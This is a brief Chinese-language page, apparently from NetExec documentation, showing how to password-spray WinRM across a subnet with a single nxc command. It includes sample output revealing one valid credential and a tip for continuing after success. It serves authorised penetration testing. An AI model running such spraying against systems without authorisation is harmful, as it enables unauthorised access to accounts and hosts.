 # 密码喷洒攻击

### 密码喷洒攻击（不使用暴力破解）

```
#~ nxc winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

预期结果：

```
WINRM       192.168.255.131 5985   ROGER            [*] http://192.168.255.131:5985/wsman
WINRM       192.168.255.131 5985   ROGER            [-] GOLD\test1:pass1 "Failed to authenticate the user test1 with ntlm"
WINRM       192.168.255.131 5985   ROGER            [+] GOLD\bonclay:Password@123 (Pwn3d!)
```

{% hint style="info" %}
默认情况下，nxc 会在找到一个有效登录后退出。使用 `--continue-on-success` 标志会在找到有效密码后继续喷洒。这在对大量用户列表使用单个密码进行喷洒时很有用。
{% endhint %}
